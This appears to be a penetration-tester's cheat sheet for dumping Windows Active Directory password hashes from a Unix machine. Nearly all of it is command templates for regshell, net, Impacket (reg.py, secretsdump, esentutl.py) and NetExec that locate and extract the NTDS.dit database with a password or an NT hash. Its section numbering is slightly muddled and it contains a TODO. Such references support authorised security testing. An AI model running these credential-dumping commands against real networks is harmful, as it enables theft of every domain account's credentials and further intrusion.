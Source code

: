 # Unix Shell

Search Tag(s): #post-exploitation #credential-access-and-dumping #network-protocols #msrpc #smb #staying-off-the-land #windows

## 01 - Manual Hashdump

### 1.1 - Enumerate Registry Files

#### 1.1.1 - MSRPC Port

##### 1.1.1.1 - `regshell`

Authentication syntax.

```
$ regshell -U "[<domain>/]<username>%<password>" -R <IP>

$ regshell -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -R <IP>
```

Navigate to the subkey and `print` the information.

```
\> predef HKEY_LOCAL_MACHINE
\HKEY_LOCAL_MACHINE> ck SYSTEM\CurrentControlSet\Services\NTDS\Parameters
\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> info

\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NTDS\Parameters> print "DSA Database file"
```

##### 1.1.1.2 - `net`

```
$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>%<password>" -S <IP>

$ net <ads | rpc> registry getvalue "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters" "DSA Database file" -U "[<domain>/]<username>" --pw-nt-hash <nt_hash> -S <IP>
```

##### 1.1.1.3 - Impacket

```
$ reg.py "<username>":"<password>"@<IP> query -keyName "HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters"
```

## 02 - Extract Shadow File

TODO: Demonstrate using smbclient to download hashes

```
$ secretsdump -system /path/to/SYSTEM -ntds /path/to/NTDS.dit local
```

## 02 - Automated Hashdump

### 2.1 - Impacket

```
$ esentutl.py "[<domain>/]<username>":"<password>"@<IP>

$ esentutl.py "[<domain>/]<username>"@<IP> -hashes :<nt_hash>
```

```
$ secretsdump.py "[<domain>/]<username>":"<password>"@<IP> -use-vss

$ secretsdump.py "[<domain>/]<username>"@<IP> -hashes :<nt_hash> -use-vss
```

### 2.2 - NetExec

```
$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --ntds [--users] [--enabled]

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] --ntds vss

$ netexec smb <IP> -u <username> -p <password> [-d <domain> | --local-auth] -M ntdsutil
```

---
## References

- [Pentestlab: Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)